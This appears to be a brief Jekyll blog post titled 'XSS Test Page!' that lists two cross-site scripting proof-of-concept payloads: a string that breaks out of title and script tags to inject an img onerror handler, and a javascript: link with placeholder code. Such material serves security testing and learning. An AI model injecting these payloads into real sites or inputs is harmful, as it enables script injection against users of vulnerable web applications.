 ```yaml
---
layout: post
title:  "XSS Test Page!"
date:   2019-12-01 09:19:24 +0530
categories: jekyll update
---
```



Some of the great XSS payloads used by experts in security industry,

'"></title></script><img src=x onerror=confirm(1)>
<a href="javascript:{ js code here}"> POC </a>

